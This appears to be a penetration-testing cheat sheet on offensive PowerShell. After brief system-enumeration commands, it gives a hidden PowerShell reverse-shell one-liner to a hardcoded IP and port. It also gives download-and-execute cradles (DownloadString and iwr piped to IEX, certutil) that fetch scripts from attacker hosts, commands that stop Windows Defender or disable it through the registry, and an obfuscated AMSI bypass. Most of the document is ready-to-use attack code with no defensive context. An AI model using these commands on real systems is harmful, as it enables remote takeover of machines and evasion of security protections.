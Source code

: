 ```yaml
---
description: >-
  Overall, PowerShell is a versatile and powerful tool for managing Windows
  systems and automating tasks.
---
```


# Powershell

#### Enumeration

```powershell
# Windows defender status
Get-MpComputerStatus

# Get hotfixes
Get-HotFix | ft -AutoSize

# Installed programs
Get-WmiObject -Class Win32_Product |  select Name, Version

# Get process
get-process -Id 3324
```

#### Reverse shell

```powershell
# One-liner
os.system("cmd /c powershell -w hidden -ep bypass -c \"$c=New-Object Net.Sockets.TCPClient('10.0.52.31',1377);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){;$d=(New-Object -TypeName Text.ASCIIEncoding).GetString($b,0,$i);$e=(iex $d 2>&1 | Out-String );$r=$e+'PS '+(pwd).Path+'> ';$sb=([text.encoding]::ASCII).GetBytes($r);$s.Write($sb,0,$sb.Length);$s.Flush()}\"") return x
```

#### Download files

```powershell
# This wil run and execute file
(New-Object Net.WebClient).Downloadstring('http://10.0.52.31:8000/file.ps1')|IEX; 
IEX (iwr 'http://10.10.14.3:443/procmon.ps1') 

# WGET
wget http://10.0.01:8000/file.ps -Outfile file.ps1

# Certutil
certutil.exe -urlcache -f http://10.0.01:8000/file.ps1 file.ps1
```

#### Defender

```powershell
# Check status
Get-MpComputerStatus
(Get-MpComputerStatus).RealTimeProtectionEnabled

# Stop defender
net stop WinDefend

# Disable using registry
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
```

<details>

<summary>AMSI Error based bypass</summary>

```
$utils = [Ref].Assembly.GetType('System.Management.Automation.Amsi'+'Utils');
$context = $utils.GetField('amsi'+'Context','NonPublic,Static');
$session = $utils.GetField('amsi'+'Session','NonPublic,Static');

$marshal = [System.Runtime.InteropServices.Marshal];
$newContext = $marshal::AllocHGlobal(4);

$context.SetValue($null,[IntPtr]$newContext);
$session.SetValue($null,$null);
```

</details>

#### Run powershell script from server

```powershell
IEX (iwr 'http://10.10.10.205/procmon.ps1') 
```
